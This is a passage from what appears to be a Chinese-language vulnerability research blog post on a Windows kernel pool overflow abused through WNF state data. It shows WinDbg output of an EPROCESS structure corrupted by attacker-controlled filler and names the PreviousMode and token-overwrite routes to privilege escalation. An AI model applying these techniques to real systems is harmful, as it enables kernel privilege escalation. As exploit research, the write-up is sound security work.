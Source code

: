 ```
PROCESS ffff8881dc84e0c0    SessionId: 1  Cid: 13fc    Peb: c2bb940000  ParentCid: 1184    DirBase: 4444444444444444  ObjectTable: ffffc7843a65c500  HandleCount:  39.    Image: TestEAOverflow.exePROCESS ffff8881dbfee0c0    SessionId: 1  Cid: 073c    Peb: f143966000  ParentCid: 13fc    DirBase: 135d92000  ObjectTable: ffffc7843a65ba40  HandleCount: 186.    Image: conhost.exePROCESS ffff8881dc3560c0    SessionId: 0  Cid: 0448    Peb: 825b82f000  ParentCid: 028c    DirBase: 37daf000  ObjectTable: ffffc7843ec49100  HandleCount: 176.    Image: WmiApSrv.exe1: kd> dt _WNF_STATE_DATA ffffd68cef97a080+0x8nt!_WNF_STATE_DATA   +0x000 Header           : _WNF_NODE_HEADER   +0x004 AllocatedSize    : 0xffffd68c   +0x008 DataSize         : 0x100   +0x00c ChangeStamp      : 21: kd> dc ffff8881dc84e0c0 L50ffff8881`dc84e0c0  0000000300000000 dc84e0c8 ffff8881  ................ffff8881`dc84e0d0  00000100414141424444444444444444  ....BAAADDDDDDDDffff8881`dc84e0e0  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e0f0  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e100  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e110  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e120  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e130  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e140  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e150  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e160  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e170  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e180  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e190  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e1a0  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e1b0  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e1c0  44444444444444444444444444444444  DDDDDDDDDDDDDDDDffff8881`dc84e1d0  44444444444444440000000000000000  DDDDDDDD........ffff8881`dc84e1e0  00000000000000000000000000000000  ................ffff8881`dc84e1f0  00000000000000000000000000000000  ................
```  
  
如您所见，EPROCESS+0x8 已被攻击者控制的数据破坏。  
  
此时，典型的利用方法有两种：  
1. 针对   
KTHREAD  
 结构体的 PreviousMode 成员  
  
1. 针对   
EPROCESS  
 的 token  
  
这些方法的优缺点已在 EDG 团队成员利用   
KTM  
 漏洞时讨论过。  
  
由于在实现可靠的权限提升之前仍面临一些挑战，我们将在后续博客文章中讨论下一阶段的内容。  
## 总结  
  
总结来说，我们详细描述了该漏洞及其触发方式。我们看到了如何利用 WNF 实现一组新颖的漏洞利用原语。第一部分的内容就到这里！在下一篇博客中，我将介绍可靠性改进、内核内存清理以及后续工作。  
  
